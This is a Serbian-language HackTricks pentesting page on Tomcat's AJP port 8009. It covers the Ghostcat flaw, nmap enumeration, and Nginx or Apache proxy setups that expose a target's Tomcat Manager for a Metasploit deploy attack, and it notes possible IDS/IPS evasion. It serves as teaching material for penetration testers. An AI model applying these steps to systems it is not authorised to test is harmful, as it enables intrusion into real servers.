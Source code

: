 # 8009 - Pentesting Apache JServ Protocol (AJP)

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

<figure><img src="../.gitbook/assets/image (1) (3) (1).png" alt=""><figcaption></figcaption></figure>

Pridružite se [**HackenProof Discord**](https://discord.com/invite/N3FrSbmwdy) serveru kako biste komunicirali sa iskusnim hakerima i lovcima na bagove!

**Hakerski uvidi**\
Uključite se u sadržaj koji istražuje uzbuđenje i izazove hakovanja

**Hakerske vesti u realnom vremenu**\
Budite u toku sa brzim svetom hakovanja kroz vesti i uvide u realnom vremenu

**Najnovije objave**\
Budite informisani o najnovijim pokretanjima nagrada za pronalaženje bagova i važnim ažuriranjima platforme

**Pridružite nam se na** [**Discord-u**](https://discord.com/invite/N3FrSbmwdy) i počnite da sarađujete sa vrhunskim hakerima danas!

## Osnovne informacije

Izvor: [https://diablohorn.com/2011/10/19/8009-the-forgotten-tomcat-port/](https://diablohorn.com/2011/10/19/8009-the-forgotten-tomcat-port/)

> AJP je žičani protokol. To je optimizovana verzija HTTP protokola koja omogućava samostalnom veb serveru kao što je [Apache](http://httpd.apache.org/) da komunicira sa Tomcat-om. Istoriski gledano, Apache je bio mnogo brži od Tomcat-a u služenju statičkog sadržaja. Ideja je da se Apache koristi za služenje statičkog sadržaja kada je to moguće, ali da se za Tomcat-ov sadržaj koristi proxy zahtev.

Takođe interesantno:

> Protokol ajp13 je orijentisan prema paketima. Binarni format je verovatno izabran umesto čitljivijeg običnog teksta iz razloga performansi. Veb server komunicira sa servlet kontejnerom preko TCP konekcija. Da bi se smanjio skup proces kreiranja soketa, veb server će pokušati da održava trajne TCP konekcije sa servlet kontejnerom i da koristi istu konekciju za više ciklusa zahteva/odgovora.

**Podrazumevani port:** 8009

```
PORT     STATE SERVICE
8009/tcp open  ajp13
```

## CVE-2020-1938 ['Ghostcat'](https://www.chaitin.cn/en/ghostcat)

Ako je AJP port izložen, Tomcat može biti podložan Ghostcat ranjivosti. Ovde je [exploit](https://www.exploit-db.com/exploits/48143) koji radi sa ovim problemom.

Ghostcat je LFI ranjivost, ali nešto ograničena: samo se mogu izvući fajlovi sa određene putanje. Ipak, to može uključivati fajlove poput `WEB-INF/web.xml` koji mogu otkriti važne informacije poput akreditacija za Tomcat interfejs, u zavisnosti od podešavanja servera.

Popravljene verzije 9.0.31, 8.5.51 i 7.0.100 su rešile ovaj problem.

## Enumeracija

### Automatska

```bash
nmap -sV --script ajp-auth,ajp-headers,ajp-methods,ajp-request -n -p 8009 <IP>
```

### [**Brute force**](../generic-methodologies-and-resources/brute-force.md#ajp)

## AJP Proxy

### Nginx Reverse Proxy & AJP

[Proverite Docker verziju](8009-pentesting-apache-jserv-protocol-ajp.md#Dockerized-version)

Kada naiđemo na otvoren AJP proxy port (8009 TCP), možemo koristiti Nginx sa `ajp_module` da pristupimo "skrivenom" Tomcat Manager-u. To se može postići kompajliranjem izvornog koda Nginx-a i dodavanjem potrebnog modula na sledeći način:

* Preuzmite izvorni kod Nginx-a
* Preuzmite potrebni modul
* Kompajlirajte izvorni kod Nginx-a sa `ajp_module`.
* Kreirajte konfiguracioni fajl koji pokazuje na AJP Port

```bash
# Download Nginx code
wget https://nginx.org/download/nginx-1.21.3.tar.gz
tar -xzvf nginx-1.21.3.tar.gz

# Compile Nginx source code with the ajp module
git clone https://github.com/dvershinin/nginx_ajp_module.git
cd nginx-1.21.3
sudo apt install libpcre3-dev
./configure --add-module=`pwd`/../nginx_ajp_module --prefix=/etc/nginx --sbin-path=/usr/sbin/nginx --modules-path=/usr/lib/nginx/modules
make
sudo make install
nginx -V
```

Komentarišite ceo `server` blok i dodajte sledeće linije unutar `http` bloka u `/etc/nginx/conf/nginx.conf` fajlu.

```shell-session
upstream tomcats {
server <TARGET_SERVER>:8009;
keepalive 10;
}
server {
listen 80;
location / {
ajp_keep_conn on;
ajp_pass tomcats;
}
}
```

Pokrenite Nginx i proverite da li sve radi ispravno izdavanjem cURL zahteva ka lokalnom hostu.

```html
sudo nginx
curl http://127.0.0.1:80

<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="UTF-8" />
<title>Apache Tomcat/X.X.XX</title>
<link href="favicon.ico" rel="icon" type="image/x-icon" />
<link href="favicon.ico" rel="shortcut icon" type="image/x-icon" />
<link href="tomcat.css" rel="stylesheet" type="text/css" />
</headas
<body>
<div id="wrapper">
<div id="navigation" class="curved container">
<span id="nav-home"><a href="https://tomcat.apache.org/">Home</a></span>
<span id="nav-hosts"><a href="/docs/">Documentation</a></span>
<span id="nav-config"><a href="/docs/config/">Configuration</a></span>
<span id="nav-examples"><a href="/examples/">Examples</a></span>
<span id="nav-wiki"><a href="https://wiki.apache.org/tomcat/FrontPage">Wiki</a></span>
<span id="nav-lists"><a href="https://tomcat.apache.org/lists.html">Mailing Lists</a></span>
<span id="nav-help"><a href="https://tomcat.apache.org/findhelp.html">Find Help</a></span>
<br class="separator" />
</div>
<div id="asf-box">
<h1>Apache Tomcat/X.X.XX</h1>
</div>
<div id="upper" class="curved container">
<div id="congrats" class="curved container">
<h2>If you're seeing this, you've successfully installed Tomcat. Congratulations!</h2>
<SNIP>
```

### Nginx Dockerizovana verzija

```bash
git clone https://github.com/ScribblerCoder/nginx-ajp-docker
cd nginx-ajp-docker
```

Zamenite `TARGET-IP` u `nginx.conf` sa AJP IP adresom, zatim izgradite i pokrenite.

```bash
docker build . -t nginx-ajp-proxy
docker run -it --rm -p 80:80 nginx-ajp-proxy
```

### Apache AJP Proxy

Nailazak otvorenog porta 8009 bez drugih dostupnih web portova je retka pojava. Međutim, i dalje je moguće iskoristiti ga pomoću **Metasploita**. Korišćenjem **Apachea** kao proksija, zahtevi mogu biti preusmereni na **Tomcat** na portu 8009.

```bash
sudo apt-get install libapache2-mod-jk
sudo vim /etc/apache2/apache2.conf # append the following line to the config
Include ajp.conf
sudo vim /etc/apache2/ajp.conf     # create the following file, change HOST to the target address
ProxyRequests Off
<Proxy *>
Order deny,allow
Deny from all
Allow from localhost
</Proxy>
ProxyPass       / ajp://HOST:8009/
ProxyPassReverse    / ajp://HOST:8009/
sudo a2enmod proxy_http
sudo a2enmod proxy_ajp
sudo systemctl restart apache2
```

Ova konfiguracija pruža mogućnost zaobilaženja sistema za detekciju i prevenciju upada (IDS/IPS) zbog binarne prirode **AJP protokola**, iako ova sposobnost nije potvrđena. Usmeravanjem redovnog Metasploit Tomcat napada na `127.0.0.1:80`, možete efikasno preuzeti kontrolu nad ciljanim sistemom.

```bash
msf  exploit(tomcat_mgr_deploy) > show options
```

## Reference

* [https://github.com/yaoweibin/nginx\_ajp\_module](https://github.com/yaoweibin/nginx\_ajp\_module)
* [https://academy.hackthebox.com/module/145/section/1295](https://academy.hackthebox.com/module/145/section/1295)

<figure><img src="../.gitbook/assets/image (1) (3) (1).png" alt=""><figcaption></figcaption></figure>

Pridružite se [**HackenProof Discord**](https://discord.com/invite/N3FrSbmwdy) serveru kako biste komunicirali sa iskusnim hakerima i lovcima na bagove!

**Hakerski uvidi**\
Uključite se u sadržaj koji istražuje uzbuđenje i izazove hakovanja.

**Vesti o hakovanju u realnom vremenu**\
Budite u toku sa brzim svetom hakovanja kroz vesti i uvide u realnom vremenu.

**Najnovije obaveštenja**\
Budite informisani o najnovijim pokretanjima nagrada za pronalaženje bagova i važnim ažuriranjima platforme.

**Pridružite nam se na** [**Discord-u**](https://discord.com/invite/N3FrSbmwdy) i počnite da sarađujete sa vrhunskim hakerima danas!

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **oglašavanje vaše kompanije u HackTricks-u** ili **preuzmete HackTricks u PDF formatu**, proverite [**PLANOVE ZA PRIJAVU**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje trikove hakovanja slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
